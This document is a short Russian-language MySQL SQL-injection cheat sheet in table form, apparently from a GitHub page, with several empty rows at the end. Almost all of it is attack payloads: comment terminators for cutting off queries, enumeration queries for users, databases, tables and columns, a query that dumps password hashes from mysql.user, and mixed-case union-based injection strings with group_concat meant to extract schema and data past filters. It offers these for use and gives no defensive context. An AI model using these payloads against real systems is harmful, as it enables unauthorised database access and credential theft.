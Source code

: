 ## My SQL    
|Команда|Код|
|----------------|-------------------------------|
|Коментарии  | #<br>/*<br>-- -<br>;%00|   
|Получение версии | SELECT VERSION();<br>SELECT @@VERSION;<br>SELECT @@GLOBAL.VERSION;|   
|Получение информации о пользователе | SELECT user()<br>SELECT current_user()<br>SELECT system_user()<br>SELECT session_user()<br>SELECT user,password FROM mysql.user;|   
|Получение хэшей паролей |SELECT host, user, password FROM mysql.user;|   
|Получение текущей базы данных | SELECT database()<br>SELECT db_name();<br>SELECT database();<br>SELECT schema_name FROM<br>information_schema.schemata;|   
|Вывод списка баз данных  |SELECT schema_name FROM information_schema.schemata;<br>SELECT distinct(db) FROM mysql.db |   
|Вывод списка колонок  |SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’<br>SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename'; |   
|Вывод таблиц  | SELECT table_name FROM information_schema.tables;<br>SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’|
|Поиск имени таблицы по колонкам, содержащимся в ней | SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’;|
|Получение имени хоста |SELECT @@hostname; |
|Union based  |UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name, 0x7c)+fRoM+information_schema.schemata<br>UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name, 0x7C)+fRoM+information_schema.tables+ wHeRe+table_schema=…<br>UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name, 0x7C)+fRoM+information_schema.columns+ wHeRe+table_name=…<br>UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM +.. |
| | |
| | |
| | |
| | |
| | |
| | |

<br>
